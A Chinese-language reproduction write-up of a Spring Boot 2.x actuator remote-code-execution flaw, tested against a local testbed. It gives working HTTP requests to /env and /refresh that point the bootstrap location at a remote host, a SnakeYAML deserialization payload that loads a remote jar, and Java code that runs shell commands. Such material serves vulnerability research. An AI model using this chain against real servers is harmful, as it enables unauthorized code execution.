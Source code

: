 # Spring Boot 修改环境属性导致的rce

## 一、漏洞简介

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

环境下载 https://github.com/ianxtianxt/actuator-testbed

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml

```

该请求修改了“ spring.cloud.bootstrap.location”属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用“ / refresh”端点。

```
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]

```

该文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。简而言之，它导致了**'java.util.ServiceLoader＃load（java.lang.Class ，java.lang.ClassLoader）'**方法，该方法试图在所有库中查找'ScriptEngineFactory'接口的所有实现。在类路径中。由于我们可以通过URLClassLoader添加新的库，因此我们可以在其中包含恶意字节码的情况下为新的'ScriptEngineFactory'提供服务。为此，我们需要使用以下必需文件创建一个jar归档文件：https://github.com/ianxtianxt/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java应该包含实际的字节码，并在构造函数中带有恶意负载。

```
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }

```

https://github.com/ianxtianxt/yaml-payload/blob/master/src/META-INF/services/javax.script.ScriptEngineFactory应该只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，以便ServiceLoader知道在哪里可以找到该类：**artsploit.AwesomeScriptEngineFactory**同样，这种利用技术要求弹簧云位于类路径中，但是与Eureka的XStream有效负载相比，它甚至可以在最新版本中使用

